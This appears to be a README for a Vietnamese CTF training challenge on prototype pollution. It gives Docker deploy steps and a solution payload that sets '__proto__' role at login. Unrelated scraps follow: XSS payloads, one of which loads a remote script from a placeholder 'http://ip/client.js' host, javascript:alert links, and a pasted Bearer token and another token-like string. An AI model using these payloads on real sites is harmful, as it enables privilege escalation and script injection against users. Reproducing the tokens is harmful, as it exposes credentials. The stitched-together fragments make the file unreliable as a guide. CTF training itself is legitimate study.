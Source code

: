 # Type
`challenge CTF training: Re03`
# Deploy
- `docker-compose up -d --build`
# Description
Prototype pollution vulnerability.
## Chức năng
- Đăng nhập
## Solution
- POST data trong chức năng đăng nhập: {"\_\_proto\_\_":{"role":1}} (lưu ý header cần sửa thành Content-Type: application/json)
## Error: Cannot find module 'ejs' --> fix:
- `cd ./web`
- `npm install ejs`
<img src="http://nonexistent-image" onerror="var script = document.createElement('script'); script.src='http://ip/client.js'; document.body.appendChild(script);">
java:alert()
<a href="javascript:alert(1)">Click here</a>
//<img src="nonexistent.jpg" onerror="var script = document.createElement('script'); script.src = 'http://ip/client.js'; document.body.appendChild(script);">

Authorization: Bearer gAAAAABnPFkNXTObuajuSn0Qq8sTF8xHV-hlWPdLhEAyxdB0zxfcECidTZ0_vhEh-ajU16X3ctwgqV5xLNvo0UkscVgASy6I4965SIf-zbKAf1xehrInyoBRloqgfpNKvmH5pae3ANuhhN4goh7E9QpaKUyddz3qk123J6GflrZckGjLDCjquGqoS5b1JjXrRhlkHg0ql0enXASijEKQkoiQW_4lsGj7_GrpasS4SniUSNoQxrmwJCsQjyXMPu-VsegZeOlEojVrUeaC9Q2AA1erkqAlGu3JahnfJSInFv3__nO5nUv4o6ELU8alDlPjYvXEBtbi8XIUCGeRCFq7G0zuk_3xQDGrSR21RTqdi3HNKak9CMYLvCM=


gAAAAABnPUS8gA3lDRA99qOB7jmQDvEEhHidlBWCjCgwPTXJ--h6FFlW-IgoTpQYoOJHqpEXnqt5AI1DZUY7B6oRmO4qun5M2-rAfwlGYGAfCF5C4orwC-pytZwgbRbCTM0FAn6u4HDFuYX5bUtNjSTEuOjF4VlfrMGOpQwS3WAVFKAyG6J55Jyfyy_kaFnxUddZwZnwIMEPvOYDaZshDMKlX9Gk1wSmUNSABSStt2-7QzKJ_BMW0z_nm8TRzcAKVZ5KW6nrK5VJpdkDvJNWBg3tB7RTOrS5cKv5OS6H25CLBJgemj7-0GgaLan7mseK-MXovOt4Wd6AmQ56L3hp4lQYdjpzT_rrFbEAbWbkUy0UEqj2ixc-ZsdCf2R1RDKoK69NMH0cmA07

